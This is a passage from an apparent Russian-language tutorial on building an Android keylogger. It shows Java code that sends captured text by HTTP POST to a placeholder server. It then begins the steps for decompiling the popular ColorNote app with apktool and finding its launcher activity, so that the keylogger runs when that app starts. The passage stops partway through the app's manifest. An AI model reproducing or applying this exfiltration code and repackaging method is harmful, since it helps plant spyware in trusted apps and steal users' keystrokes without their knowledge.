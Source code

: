 ```SendService``` - просто отправляет данные на сервер.

```java
private void sendResult(String text) {

        Log.d(TAG, "Sending result to server");

        HttpURLConnection urlConnection = null;

        try {
            int length = text.length();

            URL url = new URL("http://xxxxxxxxx");
            urlConnection = (HttpURLConnection) url.openConnection();
            urlConnection.setConnectTimeout(30 * 1000);

            urlConnection.setRequestMethod("POST");
            urlConnection.setDoOutput(true);
            urlConnection.setDoInput(false);
            urlConnection.setRequestProperty("Content-Type", "text/plain");
            urlConnection.setRequestProperty("Content-Length", Integer.valueOf(length).toString());

            DataOutputStream request = new DataOutputStream(urlConnection.getOutputStream());
            Log.d(TAG, "Sending " + text);
            request.write(text.getBytes(StandardCharsets.UTF_8));
            request.flush();
            request.close();

            int respCode = urlConnection.getResponseCode();
            Log.d(TAG, "Return status code: " + respCode);
            urlConnection.disconnect();
        } catch (Exception e) {
            Log.d(TAG, e.getMessage());
        }

    }
```

```MainActivity``` - нам нужен лишь для получения smali кода вызова основного метода.

Собираем apk, декомпилируем, с помощью ```apktool```, и пока оставляем так.

## Внедряем payload

Зайдем в Play Market и скачиваем достаточно популярное приложение [ColorNote](https://play.google.com/store/apps/details?id=com.socialnmobile.dictapps.notepad.color.note). Декомпилируем его, с помощью ```apktool```. Открываем манифест, чтобы найти главный активити. Как говорилось раннее, нам это необходимо для того, чтобы наш кейлоггер работал сразу, после запуска приложения.

```xml
<activity android:configChanges="keyboard|keyboardHidden|orientation|screenLayout|screenSize|smallestScreenSize|uiMode" 
	  
	  android:label="@string/app_name" android:name="com.socialnmobile.colornote.activity.Main" 
	  
	  android:taskAffinity="colornote.task.main" android:theme="@style/Theme.NoTitle.Light" 
	  
	  android:windowSoftInputMode="adjustPan">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
                <category android:name="android.intent.category.MULTIWINDOW_LAUNCHER"/>
                <category android:name="android.intent.category.MONKEY"/>
            </intent-filter>
            <intent-filter>
```